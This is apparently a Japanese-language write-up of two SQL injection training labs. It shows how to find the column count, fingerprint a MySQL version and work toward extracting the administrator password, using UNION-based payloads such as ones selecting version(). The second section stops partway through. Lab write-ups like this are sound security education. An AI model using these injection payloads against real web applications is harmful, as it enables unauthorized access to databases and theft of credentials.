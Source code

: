 ## ****SQL injection attack, querying the database type and version on MySQL and Microsoft****

---

### goal

今回も前回同様versionを抜き取れば良さそうです。

### Analyze

**`SQL injection UNION attack, finding a column containing text`と脆弱性箇所などは同じです。**

また、 **`SQL injection attack, querying the database type and version on Oracle` と返却カラム数は同じです。**

```sql
Gifts' union select 'a', 'a' -- --
```

### Exploit

MySQLを使用していることがわかってしまっているのであとはやるだけです。

以下を利用してMySQLではversionを取得することができます。

```sql
select version()
```

これを先程のPoCに組み込むだけです。

```sql
Gifts' union select version(), 'a' -- --
```

## ****SQL injection attack, listing the database contents on non-Oracle databases****

---

### Goal

データベースからパスワードを抜き去って、administratorでログインする

### Analyze

`'`, `''` で挙動作差があり、`Pets' union select null, -- —`, `Pets' union select null, null, null --` がエラーとなり、 `Pets' union select null, null -- --` はエラーとならないためSQL injectionがありそうです。

また、返却カラム数は2であることも、`union Attack`によりわかっています

### Exploit

union attackが可能なのでデータ型の特定をしておきます。

```sql
Pets' union select 'a', 'a' -- --
```
